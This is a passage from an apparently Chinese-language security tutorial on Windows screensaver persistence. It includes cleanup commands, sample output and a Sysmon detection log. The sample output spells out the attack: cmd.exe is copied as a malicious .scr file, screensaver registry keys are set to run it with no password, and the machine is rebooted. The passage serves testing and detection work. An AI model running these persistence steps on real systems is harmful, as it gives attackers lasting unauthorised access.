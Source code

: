 5. **清理**  
   - 删除恶意`.scr`文件：
     ```cmd
     del "%SystemRoot%\System32\evilscreensaver.scr"
     ```
   - 恢复注册表：
     ```cmd
     reg.exe delete "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /f
     reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 0 /f
     ```

### 示例输出
```cmd
copy C:\Windows\System32\cmd.exe "%SystemRoot%\System32\evilscreensaver.scr"
        1 file(s) copied.

reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
The operation completed successfully.

reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
The operation completed successfully.

reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
The operation completed successfully.

reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
The operation completed successfully.

shutdown /r /t 0
```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 测试留痕

- **Sysmon日志（事件ID 1，进程创建）**：
  ```plaintext
  EventID: 1
  RuleName: technique_id=T1112,technique_name=Modify Registry
  UtcTime: 2025-06-10 03:00:00.123
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  ProcessId: 5496
  Image: C:\Windows\System32\reg.exe
  CommandLine: reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\evilscreensaver.scr" /f
  ParentImage: C:\Windows\System32\cmd.exe
  ParentProcessId: 5028
  User: CONTOSO\Administrator
  IntegrityLevel: High
  Hashes: SHA256=19316D4266D0B776D9B2A05D5903D8CBC8F0EA1520E9C2A7E6D5960B6FA4DCAF
  ```
